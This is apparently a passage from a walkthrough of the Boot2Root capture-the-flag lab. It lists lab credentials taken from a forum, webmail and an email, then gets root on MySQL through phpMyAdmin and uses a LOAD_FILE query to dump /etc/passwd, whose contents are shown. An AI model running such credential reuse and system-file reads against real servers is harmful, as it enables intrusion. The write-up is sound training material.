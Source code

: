user: `lmezard`  
pass: `!q\]Ej?*5K5cy*AJ`


Using this cred to login to forum provide us with 

email: `laurie@borntosec.net`  
pass: `!q\]Ej?*5K5cy*AJ`


## Webmail
Loginning with laurie account, we got this from "DB Access" mail
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
user: `root`  
pass: `Fg-'kKXBj87E:aJ$`


## PHPMyAdmin
And you are now ROOT ..... on mysql

with access to phpmysql it allow us to write some sql ..... injection.

let start with 
```
SELECT LOAD_FILE('/etc/passwd/)
```

this return a blob which can be export as Json
```
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
```